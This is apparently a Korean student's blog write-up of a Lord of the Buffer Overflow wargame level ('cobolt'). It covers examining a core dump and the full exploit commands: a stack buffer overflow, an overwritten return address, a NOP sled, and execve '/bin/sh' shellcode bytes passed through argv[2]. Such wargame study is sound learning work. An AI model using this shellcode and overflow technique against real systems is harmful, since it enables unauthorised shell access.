






LOB 추가 과제로 argv[2] 변수를 이용해 5문제중 하나를 푸는 것이 나왔다. 한 3주를 먹고 놀았더니 기억이 가물가물한데, 어쨌거나 가보자.

페이로드를 위한 코드를 먼저, 그다음 argv에 쉘 코드를 집어넣는 방식으로 입력했다. 이렇게 argv 2개를 이용해 core dump 파일부터 만들었다. 덤프 파일을 분석해보자.

오랜만에 하니까 기억이 가물가물해서 core dump 파일 만들어놓고 불러오는 법도 못 찾았다. 여튼 -c로 잘 열었다. 이제 메모리를 들여다보자.

입의로 입력한 쓰레기 값 뒤에 argv가 위치하는데 이때 문제가 발생한다. 쉘코드가 입력되기 시작하는 값 앞에 데이터가 들어가, 쉘코드가 정상적으로 순서대로 들어갈 수 없어진다. 이를 해결하기 위해 끝자리에 임의의 값 2자를 넣었다.

그러니까 정상적으로 데이터가 맞춰져 들어가는 모습이다. 이제 리턴값에 우리가 읽어야 할 쉘코드의 주솟값을 넣어보자.

우리가 짠 쉘코드는 ./coboltt `python -c 'print "A"*24'` `python -c 'print  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"aa"'` 였다. 첫번째 입력자 끝부분 4바이트에 쉘코드의 주솟값인 0xbffffe04를 넣으면 되지 않을까? 해보자.

스크린샷을 못찍었는데 일단 안된다. 리턴값이 제 주소에 안들어간다. 뭐가 문젠지 생각을 해보도록 하자

./cobolt `python -c 'print "A"*20 + "\x04\xfe\xff\xbf"'` `python -c 'print "\x90" * 50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"aa"'`

주솟값 bfffef04로 입력해놓고 왜 입력안되나 30분동안 고생했다. 아..ㅋㅋㅋㅋㅋㅋ

문제가 발생했는데, 저게 원본 cobolt 파일에 적용이 안된다. cobolt파일은 접근도 할 수 없어서 뭐가 문젠지도 모르겠다. 개가튼거...

우선 nop를 넣지 않은 상태로 시도해서 실패했으니, nop를 넣은 상태로 다시 시도해보자.

nop를 넣으니까 너무 잘됝다. 왜죠? nop 넣고 주솟값 넣어도 되는거 처음 알았다.